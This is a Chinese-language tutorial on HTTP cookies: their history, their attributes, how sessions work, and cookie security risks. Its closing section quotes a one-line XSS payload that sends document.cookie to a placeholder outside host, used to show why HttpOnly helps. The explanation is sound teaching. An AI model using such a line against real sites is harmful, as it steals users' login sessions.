





### Cookie 起源与发展

#### 一、诞生背景

​		应用层协议http的五大特点之一，无状态，表示服务器无法知道两个或多个请求是否来自同一个客户端浏览器，每次请求都是完全相互独立的，而随着互联网发展，交互式web慢慢兴起，无状态的特点也阻碍了其发展。

​		早期，为了实现状态保存，程序员会在表单提交中使用**隐藏域**来记录用户的上一次操作信息。

> 隐藏域的一种写法：<input type="hidden" name="field_name" value="value" />

​		但无论如何“隐藏”，这些数据都是明文传输的，而且每次创建隐藏域和赋值都有很多麻烦，且容易出错。

​		网景公司（Netscape Communications Corporation）的一名员工 Lou Montulli（卢-蒙特利）在1994年将“Cookies”的概念应用于网络通信，用来解决用户网上购物的购物车历史记录，二当时最强大的浏览器正是网景（Netscape）浏览器。在之后，其他浏览器也渐渐开始支持 Cookies。

> Http cookies 或者 web cookies 来源于 Magic cookies（也是一个计算机术语）
>
> Magic cookies 来源于 Fortune cookies，就是 a cookie with an embedded message （嵌入了幸运信息的小甜饼） ，即小甜饼里有个纸条，纸条上写一些信息，比如，汉英短语、单词翻译、名人名言，类似盲盒或者抽奖，好似班级里捡到小纸条的感觉。
>
> Cookies 通常会保存很多用户隐私数据，对服务者或者互联网公司来说，就好像是引诱着公司犯罪、侵犯用户隐私的小甜饼。

#### 二、Cookie 是什么

​		下图是在 Chrome 浏览器中的知乎页面的 Cookies（Cookie的复数形式），在表格中，每一行都代表着一个 Cookie。



> Cookie 是由服务器发给客户端的特殊信息，而这些信息以文本的形式存放在客户端，客户端每次向服务器发送请求的时候都会带上这些特殊信息，用于服务器记录客户端的状态。

Cookie 主要有以下几个作用：

1. 会话状态管理（如用户登录态、购物车、游戏分数或其他需要记录的信息）
2. 个性化设置（如用户自定义设置、主题等）
3. 浏览器行为跟踪（如跟踪分析用户行为等）

#### 三、Cookie 原理

​		下面以用户登录为例绘制了一副简易流程图：



​		用户在输入用户名和密码后，浏览器将用户名和密码发送给服务器，服务器进行校验，通过之后将用户信息加密封装成 Cookie 放在请求头中返回给浏览器：

```sh
HTTP/1.1 200 OK
Content-type: text/html
Set-Cookie: user_token=xxx; Expires=Tue, 15 Aug 2023 21:47:38 GMT; Path=/; Domain=.163.com; HttpOnly
```

​		浏览器收到服务器返回的数据，发现请求头有一个 Set-Cookie，然后它就把 Cookie 保存起来，下次浏览器在请求相同的服务器时，会把 Cookie 放在请求头中传给服务器：

``` sh
GET /sample_page.html HTTP/1.1
Host: www.163.com
Cookie: user_token=Rg3vHJZnehYLjVg7qi3bZjzg
```

​		服务器收到请求后，从请求头中拿到 Cookie，解析并获取到用户信息，说明此用户已登录。注意，Cookie 是由服务端主动反馈给客户端，由客户端进行保存的，客户端可以选择不保存或随意修改，显然这是一种不安全的用户状态保持策略。另外，Cookie 在服务器和客户端交互的过程中，都是放在 http 协议的请求头中。

#### 四、Cookie 属性

​		在第二节的途中可以看到，Cookie的属性有：Name、Value、Domain、Path、Expires/Max-Age、Size、HTTP、Secure。

##### 1、Name & Value

​		Name 表示 Cookie 的名称，服务器通过 Name属性来获取某个 Cookie；

​		Value 表示 Cookie 的值，大多数情况下，服务器会把 Value 当做一个 Key 去缓存中查询保存的数据。

##### 2、Domain & Path

​		Domain 表示可以访问此 Cookie 的域名，我们仍以知乎的 Cookie 来解释一下 Domain：



​		从图中可以看出 Domain 有 zhihu.com 顶级域名 和 zhuanlan.zhihu.com 二级域名，所以这里会有一个访问规则：顶级域名只能设置或访问顶级域名的 Cookie，二级及以下的域名只能访问或设置自身或顶级域名的 Cookie，所以如果要在多个二级域名中共享 Cookie，可以将 Cookie 的 Domain 设置为顶级域名。

​		Path 表示可以访问此 Cookie 的页面路径，比如 path=/test，那么只有 /test 路径下的页面可以读取此 Cookie。

##### 3、Expires/Max-Age

​		Expires/Max-Age 表示此 Cookie 的过期时间，若设置为一个时间，那么到期后此 Cookie 失效，不设置的话默认是 Session，即会话存在时有效，若关闭浏览器应用，此 Cookie 失效。

> 当 Cookie 的过期时间被设定时，设定的日期和时间与客户端相关，与服务端不相关，即 Cookie 过期后，由浏览器自行清除。注意，服务端在设置过期时间时，只能设置一个数值，表示 Cookie 可以维持的时间，而不能设置某个过期时间，这也是为了解决服务端与客户端时区不同或时间设置不同导致的时间差问题。

##### 4、Size

​		Size 表示 Cookie 的 Name+Value 的字符数，比如 id=666，那么 Size = 2(id)+3(666) = 5。另外，每个浏览器对 Cookie 的支持都不相同。

##### 5、HTTP

​		该属性表示 Cookie 的 httponly，若值为 true，表示只有在 http 请求头中会带有该 Cookie 的信息，而不能通过 document.cookie 来访问此 Cookie。



​		该特征意在提供一个安全措施来帮助阻止通过 Javascript 发起的跨站脚本攻击（XSS）窃取 Cookie 的行为。

##### 6、Secure

​		Secure 表示是否只能通过 https 来传递此条 Cookie。不像其他选项，该选项只是一个标记，并没有其他的值。这种 Cookie 的内容通常具有很高的价值，并且可能被破解并以纯文本形式传输。

#### 五、Session

##### 1、背景

​		在 Cookie 设计之初，通常用于保存用户信息，但因为保存在客户端，且其本身存储的尺寸大小也有限制，最关键的一点是明文存储，可以随意修改，很不安全。于是，一种新的会话存储机制 Session 就诞生了。

##### 2、Session 是什么

​		Session 翻译为会话，服务器为每个浏览器创建一个会话对象，在第一次请求服务器时，服务器生成一个 Session 对象并保存在服务端，且 Session 的 ID 以 Cookie 的形式发送给客户端，用以显示结束或 Session 超时未结束。

##### 3、工作原理

1. 当一个用户向服务端发送第一个请求时，服务端建立 Session，并创建标识号 SessionID；
2. 客户端接受到响应，并将 SessionID 以 Cookie 的形式保存在本地；
3. 随后每次请求都带上 SessionID，服务端校验 SessionID 来判断请求属于哪个 Session。

​		对于 Session 标识号，有两种方式实现：Cookie 和 URL 重写，下图以 Cookie 的实现来绘制一个简略图来说明和展示：



​		联系 Cookie 的原理图我们可以看到，Cookie 将数据保存在客户端，而 Session 将数据保存在服务端，就安全性来说 Session 相对更优。

#### 六、总结

##### 1、Cookie 和 Session 的关系

​		二者都为了实现客户端和服务端的状态化而产生，Cookie保存在客户端，易伪造，不够安全，Session 保存在服务端，安全性得到保障，但会消耗服务端的资源。

##### 2、Cookie 的安全性问题

1. **会话劫持和 XSS**：在 web 应用中，Cookie 常用来标记用户或授权回话。因此，如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有：利用社会工程学攻击、利用应用程序漏洞进行 XSS 攻击。

   > (New Image()).src = 'http://www.xxx.com?cookie=' + document.cookie;
   >
   > 上面的 Javascript 脚本模仿了其中一种类型的攻击，而HttpOnly 设置为 true 可以一定程度上缓解此类攻击

2. **跨站请求伪造（CSRF）**：解决 CSRF 的办法有：隐藏域验证码、确认机制、较短的 Cookie 生命周期。

   > 在一个不安全的聊天室或论坛中有一张图片标签，而这个图片的地址指向了某个银行服务器的请求：
   >
   > \
   >
   > 当我们打开了含有这张图片的 Html 页面时，若你之前打开过这个银行的页面并登录过，且 Cookie 仍然有效，那么你银行账户里的钱，就会转到名为 Tom 的账户下。

